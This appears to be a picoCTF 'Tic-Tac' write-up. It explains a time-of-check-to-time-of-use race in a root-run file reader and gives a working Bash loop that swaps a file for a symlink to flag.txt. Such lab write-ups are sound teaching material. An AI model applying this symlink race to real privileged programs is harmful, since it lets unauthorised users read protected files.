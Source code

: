 # picoCTF Tic-Tac

The challenge description informs us that the file runs with root privileges and can read other files owned by us.

After reviewing the source code, it becomes clear that we can exploit a **TocTou attack** (Time of Check to Time of Use). Essentially, the program checks whether we own a file. If we do, it outputs the file's content. By altering the file at the right moment, we can bypass the ownership check and replace the file with something else—for example, a symbolic link to `flag.txt`. Since the `txtreader` program runs as root, it can read the `flag.txt` file.

### The Bash Script Exploit

I created a simple Bash script to perform this attack:

```
#!/bin/bash

FILE=/home/ctf-player/attack

for i in {1..500};

do

if [ -L "$FILE" ]; then
	rm "$FILE"
fi
echo "TEST" >> "$FILE"

./txtreader "$FILE" &
rm "$FILE"
ln -s flag.txt "$FILE"
done
```

This script performs the following steps:

1. Checks if there is a symbolic link named `attack`. If it exists, it deletes the link.
2. Creates a regular file named `attack` and writes the word "TEST" to it.
3. Runs the `txtreader` program with `attack` as its argument.
4. Deletes the file `attack` and replaces it with a symbolic link pointing to `flag.txt`.

These steps are repeated multiple times in a loop, creating a race condition.

### Execution

To execute this exploit, I log into the instance via SSH, create the Bash script using `nano`, and run the script. It may take a few attempts, but this method reliably retrieves the flag.
